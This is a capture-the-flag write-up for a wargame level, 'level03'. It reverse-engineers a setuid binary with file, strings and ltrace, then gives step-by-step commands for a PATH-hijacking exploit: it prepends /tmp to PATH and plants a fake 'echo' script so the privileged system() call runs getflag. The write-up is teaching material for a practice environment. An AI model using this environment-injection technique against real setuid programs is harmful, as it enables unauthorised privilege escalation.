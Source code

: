 # level03

## level03 executable
Run the binary file "level03" and got taunted: "Exploit me".

## Reverse engineering
Try to know what's inside this "level03" file.  
Some tools:
- file  
A tool to get some basic information about a file.  
Run `file ./level03` and we will get:  
```
./level03: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3bee584f790153856e826e38544b9e80ac184b7b, not stripped
```
It shows that level03 file is an "ELF 32-bit LSB exaeutable", also "not stripped".

- strings  
print the strings of printable characters in files.  
We can found `setresgid`, `setresuid`, `system`, `getegid`,`geteuid` functions been called.  

- ltrace  
A library call tracer.  
Run `ltrace -i ./level03` and we can found this program calling "system()" function to launch "echo" whit the PATH stored in the "env".  

## Almost the same as "Nebula Challenge" level01
According to the exploit method found online. We can write a shell script and make the executable run it with the system call.
Exploit the system() call with env injection.  
1. Check the owner of the level03 file  
Make sure this file has a "higher" privilege then the user "level03".  
`ls -la ./level03` shows the owner as "flag03" who can launch "getflag" and actually get the flag.  
2. Inject a new PATH into the env.  
`export PATH=/tmp:$PATH` this adds "/tmp" path in front of other path so the programe inside "/tmp" will be called before other path (if that program exist).  
3. Create a fake "echo" program
`echo "getflag" > /tmp/echo`
4. Make it executable
`chmod +x /tmp/echo`
5. Run ./level03 again and you've got flag

## Notions 
- Tools to read information inside a binary file.  
- Env injection  
